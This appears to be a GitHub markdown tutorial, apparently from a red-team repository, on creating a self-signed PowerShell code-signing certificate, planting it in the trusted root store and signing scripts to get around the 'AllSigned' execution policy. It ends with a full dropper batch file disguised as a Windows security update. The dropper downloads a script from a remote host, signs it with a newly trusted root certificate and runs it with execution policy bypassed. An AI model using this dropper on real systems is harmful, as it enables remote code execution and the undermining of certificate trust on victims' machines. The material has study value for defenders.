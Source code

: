 ### Create a Self-Signed Certificate for Code Signing

<br />

In PoweShell 3.0, the [New-SelfSifgnedCertificate](https://docs.microsoft.com/en-us/powershell/module/pkiclient/new-selfsignedcertificate?view=win10-ps) cmdlet was generating only SSL certificates that couldn’t be used to sign the driver and application code (unlike certificates generated by the MakeCert utility). In PowerShell 5 the new version of the New-SelfSifgnedCertificate
cmdlet can now be used to issue a Code Signing certificates.

<br />

#### Lets build our test script { my_posh_script.ps1 } - Open Notepad Copy/Paste/Save it
```
# Malicious Code to execute
write-host "Just to test IF certificate sign was worked.." -ForeGroundColor green -BackGroundColor black
Start-Sleep -Seconds 3

```
<br />

#### Lets set 'Target' PS Execution Policy to 'AllSigned' to test the script (no need admin rigths)
`Set-ExecutionPolicy AllSigned -Scope CurrentUser`
![drrr](https://user-images.githubusercontent.com/23490060/72698984-6cf18480-3b3e-11ea-8c93-81b5ae68a9d6.png)

<br />

#### Lets Run our Script (With PS ExecutionPolicy set to 'AllSigned')
[AllSigned = Requires that all scripts and files are signed by a trusted publisher, including scripts written on local computer.](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/set-executionpolicy?view=powershell-7)
![sd11](https://user-images.githubusercontent.com/23490060/72687408-6a1e7180-3af5-11ea-8d14-c0ffa221468d.png)

<br />


#### To create a self-signed certificate for signing the application code (my_posh_script.ps1), run the command:
```
$cert = New-SelfSignedCertificate -Subject "My Code Signing Certificate" -Type CodeSigningCert -CertStoreLocation cert:\LocalMachine\My
```
![sdr](https://user-images.githubusercontent.com/23490060/72689217-0dc44d80-3b07-11ea-98f6-1acadb0615b3.png)

<br />

#### Let’s try to sign our PowerShell script (my_posh_script.ps1) using this certificate:
```
Set-AuthenticodeSignature -FilePath $env:userprofile\Desktop\my_posh_script.ps1 -Certificate $cert
```
![fdr](https://user-images.githubusercontent.com/23490060/72689232-3cdabf00-3b07-11ea-9ba7-ff830fca7356.png)

**Remark:** f you are receiving an **'UnknownError'** warning when executing the command, this means that **'the certificate is not trusted'**.
Because it is located in the **'user’s personal certificates store'** To open the certificate store press: Windows+R -> `certlm.msc`.
![sd3](https://user-images.githubusercontent.com/23490060/72686272-bfa15100-3aea-11ea-9f1a-7ae2e2cb0cb2.png)

<br />

#### We need to move our certificate to the 'trusted root certificates' store
![sd4](https://user-images.githubusercontent.com/23490060/72686277-dba4f280-3aea-11ea-9332-9e8c274bb9fe.png)
![sd5](https://user-images.githubusercontent.com/23490060/72686281-e52e5a80-3aea-11ea-96a6-a11bf6e8e8f3.png)
![sd6](https://user-images.githubusercontent.com/23490060/72686284-ec556880-3aea-11ea-9af0-3e43c4ea8fa1.png)

<br />

#### After that, you can sign your PowerShell script with this self-signed certificate.
```
Set-AuthenticodeSignature -FilePath $env:userprofile\Desktop\my_posh_script.ps1 -Certificate $cert
```
![dsf](https://user-images.githubusercontent.com/23490060/72689414-1158d400-3b09-11ea-9d6a-449a224c1952.png)
#### After the script beeing signed, it will be append one certificate {code block} inside the PS script:
![po1](https://user-images.githubusercontent.com/23490060/72687557-d2ba1e00-3af6-11ea-840b-702ccbe4bc73.png)
#### Running the script with PS Execution-Policy set to 'AllSigned'
[AllSigned. Requires that all scripts and files are signed by a trusted publisher, including scripts written on local computer.](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/set-executionpolicy?view=powershell-7)
![sdff](https://user-images.githubusercontent.com/23490060/72687601-6a1f7100-3af7-11ea-8f95-9d611d8867b2.png)

---

<br />

**Remark:** After beeing signed, the PS script can not be changed under the risk of breaking cert code block

**Remark:** Remmenber that this certificate its only valid for the Local Machine (current PC) were it was been stored..
That meens if we port the PS script to a remote machine it will not execute, because remote machine does not contain
this certificate in there certificate store ...

<br />

#### Revert Target System to 'Default' Settings. (non admin privs requiered)
`cmd /c echo Y | powershell Set-ExecutionPolicy Restricted -Scope CurrentUser`
![fin](https://user-images.githubusercontent.com/23490060/72699309-ae366400-3b3f-11ea-9397-fc9c2510f907.png)

---

<br />

This next step shows us how this technic can be abused (PS Execution Policy bypass) to remote Download/Execute our PS Script, even if target system is config to Only run digitally Signed PS scripts .. It will download and execute him ..

<br />

#### Batch (dropper.bat) Automation Example:
```
@echo off
color 03
title Cumulative Security Update KB4524147

echo [1] Set Target PS Execution Policy to 'AllSigned' to test script.
cmd /c echo Y | powershell Set-ExecutionPolicy AllSigned -Scope CurrentUser
timeout /T 2 >nul

echo [2] Downloading our PS script to target 'tmp' remote folder.
powershell -C (New-Object Net.WebClient).DownloadFile('http://192.168.1.71/my_posh_script.ps1', '$env:tmp\my_posh_script.ps1')
timeout /T 2 >nul

echo [3] Digitally sign Our Downloaded PS script (my_posh_script.ps1)
:: Code to digitally sign Our Downloaded PS script (my_posh_script.ps1) -> { This certificate expires in six months }
powershell $cert = New-SelfSignedCertificate -Subject "My_Code_Signing_Certificate" -FriendlyName "SsaRedTeam" -NotAfter (Get-Date).AddMonths(6) -Type CodeSigningCert -CertStoreLocation cert:\LocalMachine\My;Move-Item -Path $cert.PSPath -Destination "Cert:\LocalMachine\Root";Set-AuthenticodeSignature -FilePath $env:tmp\my_posh_script.ps1 -Certificate $cert
timeout /T 2 >nul

echo [4] Executing our Downloaded script and bypass user intervention
cd %tmp% && cmd /c echo A | powershell -Execution Bypass -NoProfile -File my_posh_script.ps1
pause
```
**Remark:** This batch script must be executed with **admin privileges**<br />
**Remark:** This Dropper.bat can **Download-PS-Script/Build-Cert/Sign-PS-Script/Execute-PS-Script** because the Policy
its set by Default to powershell Scripts Only (this policy does not affects batch scripts from running and executing all of this)..
![dff](https://user-images.githubusercontent.com/23490060/72754958-28f39380-3bc1-11ea-8eb8-d2c61351ba14.png)

